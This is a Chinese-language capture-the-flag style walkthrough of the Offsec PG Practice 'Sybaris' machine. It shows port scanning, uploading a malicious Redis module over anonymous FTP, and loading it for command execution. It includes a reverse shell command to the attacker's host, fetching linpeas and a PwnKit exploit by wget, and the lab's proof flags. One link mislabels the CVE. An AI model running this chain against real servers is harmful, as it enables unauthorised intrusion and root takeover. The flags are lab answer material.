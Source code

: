 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Sybaris
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.176.93 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.176.93:21
Open 192.168.176.93:22
Open 192.168.176.93:80
Open 192.168.176.93:6379

PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.196
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0               6 Apr 01  2020 pub [NSE: writeable]
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.22)
| http-robots.txt: 11 disallowed entries 
| /config/ /system/ /themes/ /vendor/ /cache/ 
| /changelog.txt /composer.json /composer.lock /composer.phar /search/ 
|_/admin/
|_http-title: Sybaris - Just another HTMLy blog
|_http-generator: HTMLy v2.7.5
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.22
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET POST
|_http-favicon: Unknown favicon MD5: A4DA8778FE902EB34FD9A5D4C0A832E1
6379/tcp open  redis   syn-ack Redis key-value store 5.0.9
Service Info: OS: Unix
```

參考之前所遇到的[6379 - Pentesting Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)的部分，先去[RedisModules-ExecuteCommand
](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)下載之後進行`make`，然後上傳到ftp裡面進行`load`
```
┌──(kali㉿kali)-[~/pgplay/RedisModules-ExecuteCommand]
└─$ make

┌──(kali㉿kali)-[~/pgplay/redis-rce]
└─$ ftp 192.168.176.93
Name (192.168.176.93:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> cd pub
250 Directory successfully changed.
ftp> put module.so
```

`load module`之後開啟nc，等反彈，在`/home/pablo`可得proof.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp22

┌──(kali㉿kali)-[~/pgplay]
└─$ redis-cli -h 192.168.176.93
192.168.176.93:6379> MODULE LOAD /var/ftp/pub/module.so
OK
192.168.176.93:6379> system.exec "id"
"uid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\n"
192.168.176.93:6379> system.exec "/bin/sh -i >& /dev/tcp/192.168.45.196/22 0>&1"

python -c 'import pty; pty.spawn("/bin/bash")'
[pablo@sybaris ~]$ cat local.txt
f4d9f938e00a3af37f4891bb0fd72e44
```

`linpeas.sh`，用[CVE-2021-4034](https://github.com/worawit/CVE-2021-3156?tab=readme-ov-file)使用之後得root，在/root得proof.txt
```
[pablo@sybaris ~]$ wget 192.168.45.196/linpeas.sh
[pablo@sybaris ~]$ chmod +x linpeas.sh
[pablo@sybaris ~]$ ./linpeas.sh

...
[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
...

[pablo@sybaris ~]$ wget 192.168.45.196/CVE-2021-4034.py
[pablo@sybaris ~]$ python CVE-2021-4034.py
python CVE-2021-4034.py
[+] Creating shared library for exploit code.
[+] Calling execve()
[root@sybaris root]# cat proof.txt
2a735250c280571e99972bb23c8960c3
```